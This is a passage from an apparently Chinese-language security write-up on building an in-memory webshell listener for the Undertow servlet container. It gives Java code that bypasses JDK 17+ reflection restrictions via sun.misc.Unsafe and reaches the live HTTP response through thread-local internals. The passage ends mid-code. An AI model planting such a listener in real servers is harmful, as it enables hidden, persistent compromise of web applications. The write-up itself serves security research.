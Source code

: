 其中MemListener.class要回显，则需要获取HttpServletResponseImpl

```java
TargetObject = {java.lang.Thread}   
  ---> threadLocals = {java.lang.ThreadLocal$ThreadLocalMap}   
   ---> table = {class \[Ljava.lang.ThreadLocal$ThreadLocalMap$Entry;}   
    ---> \[10\] = {java.lang.ThreadLocal$ThreadLocalMap$Entry}   
     ---> value = {io.undertow.servlet.handlers.ServletRequestContext}   
      ---> originalResponse = {io.undertow.servlet.spec.HttpServletResponseImpl}
```

回显编写

```java
public class TmpListener implements ServletRequestListener {  
    @Override  
    public void requestInitialized(ServletRequestEvent sre) {  
​  
        System.out.println("AAA\\n");  
        try {  
            bypassreflect(TmpListener.class); //绕过JDK17+反射限制  
            Object o \= getCurrentThreadObj("io.undertow.servlet.handlers.ServletRequestContext");  
            HttpServletResponseImpl response \= (HttpServletResponseImpl) getfieldobj(o,"originalResponse");  
            response.getWriter().write("MemListener!!!");  
        } catch (Exception e) {  
            e.printStackTrace();  
        }  
    }  
    public void bypassreflect(Class currentClass) throws ClassNotFoundException, NoSuchFieldException, IllegalAccessException {  
        Class unsafeClass \= Class.forName("sun.misc.Unsafe");  
        Field field \= unsafeClass.getDeclaredField("theUnsafe");  
        field.setAccessible(true);  
        Unsafe unsafe \= (Unsafe) field.get(null);  
        Module baseModule \= Object.class.getModule();  
        long addr \= unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));  
        unsafe.getAndSetObject(currentClass, addr, baseModule);  
    }  
    public Object getfieldobj(Object obj, String fieldname) throws NoSuchFieldException, IllegalAccessException {  
        try{  
            Field field \= obj.getClass().getDeclaredField(fieldname);  
            field.setAccessible(true);  
            Object fieldobj \= field.get(obj);  
            return fieldobj;  
        }catch (NoSuchFieldException e) {  
            Field field \= obj.getClass().getSuperclass().getDeclaredField(fieldname);  
            field.setAccessible(true);  
            Object fieldobj \= field.get(obj);  
            return fieldobj;  
        }  
    }  
    public Object getCurrentThreadObj(String classname) throws NoSuchFieldException, IllegalAccessException, ClassNotFoundException {  
        try{  
            Thread currentThread \= Thread.currentThread();  
            Object threadLocals \= getfieldobj(currentThread,"threadLocals");  
            Object\[\] table \= (Object\[\]) getfieldobj(threadLocals,"table");  
            for(int i\=0; i<table.length;i++){  
                Object tmpobj \= table\[i\];  
                if(tmpobj\==null) continue;  
                Object obj \= getfieldobj(tmpobj,"value");  
                if(obj!=null && obj.getClass().getName().equals(classname)){  
```